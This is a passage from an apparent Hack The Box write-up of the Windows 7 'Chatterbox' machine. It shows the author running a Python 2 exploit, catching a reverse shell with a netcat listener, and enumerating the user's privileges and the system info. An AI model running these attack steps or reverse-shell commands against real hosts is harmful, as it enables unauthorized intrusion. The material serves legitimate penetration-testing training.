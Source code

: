 ## Initial access

Now we can run the exploit. Just remember that the exploit code is written in python2. So we should run it with python2 as well.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Chatterbox]
└─$ python2 36025.py                                                                                                     
---->{P00F}!

```
We should check our netcat listener to see if the reverse shell has been established.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB]
└─$ rlwrap nc -lvp 4444
listening on [any] 4444 ...
10.129.27.60: inverse host lookup failed: Unknown host
connect to [10.10.14.71] from (UNKNOWN) [10.129.27.60] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```
It looks like we have a connection with the target. Now we should move to the next phase and enumerate the machine.
First we should enumerate who we are and what privileges we have on the target.
```
C:\Windows\system32>whoami
whoami
chatterbox\alfred

C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\Windows\system32>

```
We are Alfred on the target, but we don't have any useful privileges we can use to gain more privileges.
So let's get more information about the system.
```
C:\Windows\system32>systeminfo
systeminfo

Host Name:                 CHATTERBOX
OS Name:                   Microsoft Windows 7 Professional 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
```